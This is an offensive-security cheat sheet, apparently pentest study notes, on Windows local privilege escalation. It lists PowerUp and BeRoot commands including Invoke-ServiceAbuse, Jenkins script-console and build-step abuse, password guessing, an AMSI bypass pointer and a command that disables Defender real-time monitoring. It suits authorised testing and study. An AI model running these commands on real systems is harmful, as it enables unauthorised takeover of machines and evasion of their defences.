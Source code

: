 # Local Privilege Escalation

## Ways for local privesc

* Missing patches
* Automated deployment (e.g. C:\Windows\panther\unattend.xml, C:\Windows\Panther, C:\Windows\Panther\UnattendGC, C:\Windows\System32\sysprep\Panther, s ) and AutoLogon passwords in clear text in Windowds Registry
* AlwaysInstallElevated (Any user can run MSI as SYSTEM)
* Misonfigured Services (e.g. Unquoted Service path, Permissions with Services/Directories
* DLL Hijacking                 &#x20;
* Tools: \
  PowerUp - . .\PowerUp.ps1 Invoke-AllCheck\
  BeRoot - .\beRoot.exe\
  Privesc - . .\PrivEsc.ps1 Invoke-PrivEsc\
  Seatbelt - .\seatbelt.exe all&#x20;

## Service Issues using PowerUp

**Do all checks**\
. .\PowerUp.ps1\
Invoke-AllChecks

The Parameter "StartName" is the privilege e.g. LocalSystem\
The Parameter "CanRestart" is useful so we can restart it on our own and dont have to restart machine/wait until the service is restarted

**Get services with unquoted paths an a space in their name**\
GetServiceUnquoted -Verbose\
Get-WmiObject -Class win32\_service | select pathname

**Get services where the current user can write to its binary path or change arguments to the binary**\
Get-ModifiableServiceFile -Verbose&#x20;

**Get the services whose configuration current user can modify (e.g ACLs of the Service, maybe point service to different executable**\
****Get-ModifiableService -Verbose&#x20;



## Abusing Enterprise Applications

* If Windows based, the often run as SYSTEM or Local Administrator
* Often overlooked by the Security team
* CI/CD Tools are interesting for abuse because they often need local high privilege - e.g Jenkins
* Jenkins
  * Anonymous read rights are/were default and you could see the build executor like Windows Server....
  * No Bruteforce Protection / No lockout / No PW policy for Jenkins local accounts (Check UserID)
  * When we have admin to Jenkins Server: http://url/script => Get you to the script console, Goovy scripts can be executed
    * That code will run on the build master (not the slaves)
    * ![](<.gitbook/assets/image (6).png>)
  * Try Username:Username, Usern:ReverseOfUsername etc.
  * Try to "Configure"a  Project and add build step "Execute Windows Batch Command and enter "powershell -c \<command>&#x20;
    * http://url/job/\[ProjectName]/configure => 200 Code if we have the permissions=> Check with Burp for all Projects
    * Check all Projects with all Users
    * Put your build step as the first one, so it wil get executed no matter the errors of other steps
    *   E.g

        <figure><img src=".gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>



## **Misc**

**AMSI Bypass**\
****amsi.fail

**Disable AV Protection/Monitoring**\
Set-MpPreference -DisableRealtimeMonitoring $true

**Check Powershell Language Mode**\
$ExecutionContext.SessionState.LanguageMode

**AppLocker Policy**\
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections



## PrivEsc Scripts

{% embed url="https://github.com/enjoiz/Privesc" %}

. .\privesc.ps1\
Invoke-PrivEsc

{% embed url="https://github.com/AlessandroZ/BeRoot./beRoot.exe" %}

./beroot.exe

{% embed url="https://github.com/HarmJ0y/PowerUp" %}

```
. ./powerup
Invoke-allchecks
Get-ServiceUnquoted -Verbose
Get-ModifiableServiceFile -Verbose
Invoke-ServiceAbuse
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName '<domain>\<username>'
```

{% embed url="https://github.com/S1ckB0y1337/WinPwn" %}
